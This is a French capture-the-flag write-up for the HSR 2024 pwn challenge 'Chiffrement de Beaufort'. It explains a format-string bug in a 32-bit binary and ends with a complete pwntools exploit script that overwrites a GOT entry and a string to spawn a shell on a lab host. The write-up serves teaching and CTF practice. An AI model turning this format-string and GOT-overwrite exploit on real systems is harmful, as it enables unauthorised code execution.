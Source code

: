 ```yaml
---
title: Chiffrement de Beaufort -  HSR 2024
date: 2024-04-01
draft: false
categories:
  - format string
  - HSR
  - pwn
tags:
  - pwn
  - format_string
  - HSR
  - writeups
---
```

## Binary Analysis
Pour analyser le binaire, on va commencer par l'ouvrir avec un décompilo, comme **Binja**. Le binaire n'étant pas strippé, on peut s'aider des symboles pour deviner ce que fait chaque fonction.
![Malloc from Top Chunk](/images/beaufort_symbols.png)

A part la fonction *backdoor()* qui aspire à servir de fonction *win()*, le nom des fonctions ne nous apporte rien d'intéressant.
Regardons un peu plus en détail ce que fait le programme.

### Main()
Tout d'abord, la fonction *main()* va lire l'entrée standard à 2 reprises, attendant de l'utilisateur qu'il envoie une chaine de maximum 0x64 caractères. Ensuite elle va stocker ces entrées dans 2 buffers, puis appeler la fonction *beaufortCipher()* avec ces 2 buffers en paramètres.
![Malloc from Top Chunk](/images/beaufort_main1.png)

### beaufortCipher()
Quant à la fonction *cipherBeaufort()*, comme son nom l'indique, elle applique un chiffrement de **Beaufort** sur notre première input. La clé utilisée pour chiffrer le buffer est enfait notre 2ème input.
![Malloc from Top Chunk](/images/beaufort_cipher.png)

### End of main()
Une fois que notre input a été chiffrée avec la clé qu'on donne au programme, la fonction *main()* affiche le buffer chiffré, puis la clé qu'on lui a donné.
Et c'est ici que se trouve la vuln. 

En effet, le *printf()* que le programme appel pour afficher notre clé prend directement la clé comme premier argument. Ainsi notre input (la clé) est interpetée, par *printf()*, comme étant le formatteur.
Le programme est donc vulnérable à une format string.

![Malloc from Top Chunk](/images/beaufort_main2.png)

## Theorycraft
Maintenant réfléchissons à comment on va exploiter la vuln. Si on fait un **checksec**, on remarque que le binaire n'a ni **PIE**, ni **RelRO**.
```sh title:checksec
Canary  :    ✘ 
NX      :    ✓ 
PIE     :    ✘ 
Fortify :    ✘ 
RelRO   :    Partial
```

Dans tous les cas on part du principe que **l'ASLR** est actif. De plus, comme le chall est en remote, on a pas les détails de l'environnement dans lequel run le binaire, donc c'est trop foireux de se baser sur des adresses hardcodées de la stack.

Par contre, l'abscence de **RelRO** et de **PIE** nous permet non seulement de localiser la **GOT** à coup sûr, mais aussi d'y accéder en écriture. On peut donc envisager d'overwrite certaines entrées de la GOT afin d'obtenir notre shell.

Enfin on a une fonction *backdoor()* qui lance un *system("/bin/ls")*. La string *"/bin/ls"* étant dans la section *.data*, on peut la changer pour *"/bin/sh"* avant de rediriger le flow d'execution vers *backdoor()*.
## Exploitation
Notre exploit va se faire en 3 étapes:
1) Trouver à quel offset notre input se trouve sur la stack, au moment du call à *printf()*
2) Overwrite *"/bin/ls"* avec *"/bin/sh"*
3) Overwrite l'entrée de *exit()* dans la **GOT** avec l'adresse de *backup()*

### Input offset
Pour trouver l'offset, tout ce qu'on a à faire est de lancer le programme, **break** au moment du *printf()* vulnérable et regarder à quelle distance de **$ESP** se trouve notre input. Pour repérer facilement notre input, on va envoyer *"aaaaaaa..."* comme clé.
![Malloc from Top Chunk](/images/beaufort_gdb.png)

On voit que notre input est à $0$x$78$ bytes de **$ESP**, soit en 32 bits, $30*4$ bytes. Notre offset est donc 30.

### The Exploit
Pour ce qui est de l'exploit, on va utiliser le module *fmtstr* de *Pwntools* et plus particulièrement la fonction *fmtstr_payload()*. Il nous suffit simplement de lui passer comme argument l'offset de notre input ainsi qu'un dictionnaire des adresses et des valeurs qu'on souhaite écrire.

```py
payload = fmtstr_payload(30, writes) 
print(payload)
```

L'adresse de *"/bin/ls"* est *0x0804c024*. On va donc écrire *"sh"* à *0x0804c029*, ce qui nous donnera *"/bin/sh"*.
Enfin on va réécrire l'entrée de *exit()* dans la **GOT** par l'adresse de la fonction *backup()*.

```py
writes = { 0x0804c029: 0x00006873, 
		   elfexe.got['exit']: elfexe.sym['backdoor']}
```

Ce qui donne comme exploit final :
```py title:exploit.py
#!/usr/bin/python3.9 
from pwn import * 

context.binary = elfexe = ELF('./beaufort.bin')

def start(argv=[], *a, **kw): 
	'''Start the exploit against the target.''' 
	elf_path = elfexe.path 
	
	if args.REMOTE: 
		remote_server = '10.22.148.11'
		remote_port = 1341
		target = remote(remote_server, remote_port) 
	else:  
		target = process([elf_path] + argv, *a, **kw) 
	
	return target 
		
#=========================================================== 
# EXPLOIT GOES HERE 
#=========================================================== 
def pad(payload): 
	return payload+b'_'*(0x64-len(payload)) 
	
arguments = [] 
io = start(arguments) 

writes = {0x0804c029: 0x00006873, 
		  elfexe.got['exit']: elfexe.sym['backdoor']} 

payload = b"A"*0x60 
io.sendline(payload) 

payload = fmtstr_payload(30, writes) 
payload = pad(payload) 

print(payload) 
io.sendline(payload) 

io.interactive()
io.close()
```
